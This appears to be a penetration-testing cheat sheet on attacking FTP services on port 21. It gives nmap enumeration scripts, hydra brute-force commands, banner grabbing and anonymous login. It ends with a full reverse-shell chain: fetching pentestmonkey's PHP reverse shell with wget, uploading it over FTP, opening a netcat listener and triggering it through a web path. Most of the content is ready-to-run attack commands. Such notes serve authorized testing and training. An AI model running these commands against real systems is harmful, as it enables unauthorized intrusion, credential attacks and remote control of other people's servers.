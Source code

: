 ```yaml
---
title: File Transfer Protocol (FTP) Pentesting
desc: Default port is 21.
tags: [FTP, Hydra, Netcat, Network, Nmap, Web]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ftp-anon -p 21 <target-ip>
    nmap --script ftp-vuln* -p 21 <target-ip>
    nmap --script ftp-* -p 21 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ftp
    hydra -L username.txt -p password <target-ip> ftp

    hydra -l username -P passwords.txt ftp://<target-ip>
    hydra -L usernames.txt -p password ftp://<target-ip>
    ```

<br />

## Investigation

1. **Banner Grabbing**

    ```sh
    nc <target-ip> 21
    ```

    - **Use OpenSSL**

        First off, open listener.

        ```sh
        nc -vn <target-ip> 21
        ```

        Then run the command below.

        ```sh
        openssl s_client -connect <target-ip>:21 -starttls ftp
        ```

<br />

## Connect FTP

```sh
ftp username@10.0.0.1
```

Sometimes you might be able to the **anonymous** login.  
Not likely, but worth a try.

```
ftp 10.0.0.1 
username: anonymous
password: anonymous
```

<br />

## Search Files in FTP

1. **Basic Investigation**

    If you can connect FTP, search directories and files, then download them to your local machine.

    ```sh
    ftp> ls

    # Transfer files to the local machine.
    ftp> get sample.txt
    ```

<br />

## Reverse Shell over FTP

If the target website allows users to access the ftp directory, you can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload.

    ```sh
    ftp username@<target-ip>

    # Upload the payload you downloaded
    ftp > put shell.php
    ```

3. **Get a Shell**

    At first, you need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    You should get a target shell.